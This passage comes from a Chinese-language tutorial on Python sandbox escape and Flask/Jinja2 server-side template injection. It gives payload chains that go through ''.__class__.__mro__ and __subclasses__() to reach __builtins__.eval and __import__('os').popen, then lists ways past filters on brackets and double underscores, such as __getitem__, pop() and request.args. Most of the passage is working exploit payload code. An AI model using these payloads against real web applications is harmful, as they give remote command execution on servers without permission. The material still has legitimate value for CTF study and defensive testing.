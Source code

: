 5若上一步返回的结果里有需要的方法就可以直接调用;若想调用内置库的函数用__builtins__ ;若想调用第三方库（模块）可以继续用__import__载入:

```python
#若上一步返回的结果里有需要的方法就可以直接调用;
''.__class__.__mro__[-1].__subclasses__()[78].__init__.func_globals.getreader
#若想调用内置库的函数,利用__builtins__属性:
''.__class__.__mro__[-1].__subclasses__()[78].__init__.func_globals.__builtins__.eval()
#若想调用第三方库（模块）可以后加__import__载入;
''.__class__.__mro__[-1].__subclasses__()[78].__init__.func_globals.__builtins__.__import__('os').popen
```



## 0x4常见绕过方式

###### 1)过滤中括号

1. `__getitem__`方法，该方法用来获取指定索引对应的元素。

   例如：

   ```python
   ''.__class__.__mro__.__getitem__(-1).__subclasses__().__getitem__(40)
   ''.__class__.__mro__.__getitem__(-1).__subclasses__().__getitem__(79).__init__.__globals__.__builtins__.__getitem__('ord')
   #这个操作对字典与列表都适用
   ```

   来获取`__mro__`所得元组的最后一个元素和`__subclasses__()`返回的列表里的索引为40的元素。

2. 对于列表来,pop() 函数用于移除列表中的一个元素（默认最后一个元素），并且返回该元素的值。我们可以用pop() 来代替中括号。里使用pop并不会真的移除,但却能返回其值,取代中括号,来实现绕过。例如

   ```python
   ''.__class__.__base__.__subclasses__().pop(40)
   #这个只能用于列表
   ```
   
   来获得`__subclasses__()`返回的列表里的索引为40的元素。
   
3. 对于字典来说,可以用'.'号来代替.在flask中的`{{``}}`号里'.'号有代替`[ ]`对字典进行索引读取的作用.例如:

   ```python
   ''.__class__.__mro__.__getitem__(-1).__subclasses__().__getitem__(79).__init__.__globals__.__builtins__.ord
   #这个只能用于字典
   ```

   来获得`__builtins__`返回的列表里的索引为'ord'的元素。

   

   

###### 2)过滤双下划线

1. request.args 是flask中的一个属性,为返回请求的参数,这里自己设置一个变量名,将后面的路径传值进来,进而绕过了'_'的过滤.

   例如：

   ```python
    {{""[request.args.class][request.args.x1][request.args.x2][request.args.x3]()[40]}}?class=__class__&x1=__base__&x2=__base__&x3=__subclasses__
   ```
